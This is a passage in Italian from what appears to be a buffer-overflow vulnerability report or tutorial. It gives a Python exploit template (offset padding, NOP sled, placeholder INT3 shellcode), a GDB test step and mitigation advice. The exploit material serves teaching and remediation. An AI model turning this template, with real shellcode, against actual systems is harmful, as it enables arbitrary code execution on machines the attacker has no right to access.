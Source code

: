 **Esempio di Script Python:**

```python
#!/usr/bin/env python3
import sys

# Offset determinato tramite pattern_create/pattern_offset
offset = 76

# Esempio di payload (NOP sled + shellcode)
nop_sled = b"\x90" * 16
# shellcode di esempio (da generare tramite msfvenom o tool analogo)
shellcode = b"\xcc" * 32  # Utilizzato solo a scopo dimostrativo, 0xCC è l'istruzione INT3 (breakpoint)

# Costruzione del payload
payload = b"A" * offset + nop_sled + shellcode

# Invio del payload all'applicazione vulnerabile
print(payload.decode('latin-1'))
```

> **Nota:**  
> Il payload reale deve essere generato con attenzione, garantendo la compatibilità con il sistema target e tenendo conto di eventuali restrizioni (bad characters, dimensione massima, ecc.).  
> 🚀 **Testare sempre in ambienti isolati!**

### 4.3 Test dell'Exploit

Per confermare l’efficacia dell’exploit:
1. **Esecuzione dell’applicazione in un ambiente controllato:**  
   Avviare l’applicazione vulnerabile in una finestra di terminale monitorata con GDB.
2. **Invio del Payload:**  
   ```bash
   (gdb) run $(python3 exploit.py)
   ```
3. **Verifica dell’Esecuzione di Codice Arbitrario:**  
   Se il payload è correttamente eseguito, si noterà il comportamento anomalo (ad esempio, l'apertura di una shell interattiva o la visualizzazione di un messaggio di conferma).

> **Screenshot dimostrativo:**  
> _[Inserire qui screenshot della sessione GDB con evidenza del crash e del payload eseguito]_  
> (Per una demo video, si può allegare un link a un video registrato dell'exploit in esecuzione.)

---

## 5. Proposte di Mitigazione e Raccomandazioni

Per ridurre il rischio associato a vulnerabilità di buffer overflow, si consiglia di:

- **Aggiornamento del Codice:**  
  - Utilizzare funzioni di copia sicure (es. `strncpy` al posto di `strcpy`).
  - Implementare controlli sui limiti di input.
